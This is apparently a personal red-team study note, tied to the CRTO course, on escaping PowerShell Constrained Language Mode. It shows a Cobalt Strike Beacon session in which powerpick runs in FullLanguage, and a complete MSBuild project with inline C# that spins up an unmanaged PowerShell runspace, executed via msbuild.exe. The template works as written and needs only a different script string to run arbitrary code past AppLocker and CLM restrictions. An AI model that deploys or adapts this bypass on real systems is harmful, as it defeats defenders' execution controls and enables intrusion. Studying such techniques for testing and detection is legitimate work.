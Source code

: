 
If you try to run a script or command in PowerShell and see an error like "only core types in this language mode", then you know you're operating in a restricted environment.  

If you can find an AppLocker bypass to execute arbitrary code, you can also break out of PowerShell Constrained Language Mode by using an unmanaged PowerShell runspace.

Here are some methods to try to escape [[Powershell CLM]]


#### 🖊️ via Cobalt Strike

1) If you have a Beacon running on a target, this is just what powerpick does.

```
beacon> powershell $ExecutionContext.SessionState.LanguageMode
ConstrainedLanguage

beacon> powerpick $ExecutionContext.SessionState.LanguageMode
FullLanguage
```


#### 📔 via a LOLBin

1) You can try using `MSBuild` to escape powershell CLM

```
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
  <Target Name="MSBuild">
   <MSBuildTest/>
  </Target>
   <UsingTask
    TaskName="MSBuildTest"
    TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
     <Task>
     <Reference Include="System.Management.Automation" />
      <Code Type="Class" Language="cs">
        <![CDATA[

            using System;
            using System.Linq;
            using System.Management.Automation;
            using System.Management.Automation.Runspaces;

            using Microsoft.Build.Framework;
            using Microsoft.Build.Utilities;

            public class MSBuildTest :  Task, ITask
            {
                public override bool Execute()
                {
                    using (var runspace = RunspaceFactory.CreateRunspace())
                    {
                      runspace.Open();

                      using (var posh = PowerShell.Create())
                      {
                        posh.Runspace = runspace;
                        posh.AddScript("$ExecutionContext.SessionState.LanguageMode");
                                                
                        var results = posh.Invoke();
                        var output = string.Join(Environment.NewLine, results.Select(r => r.ToString()).ToArray());
                        
                        Console.WriteLine(output);
                      }
                    }

                return true;
              }
            }

        ]]>
      </Code>
    </Task>
  </UsingTask>
</Project>
```

2) Then:

`C:\> msbuild.exe bypass.csproj`



#### ⚠ Opsec




### Properties
---
📆 created   {{29-02-2024}} 15:47
🏷️ tags: #redteam #crto 

---



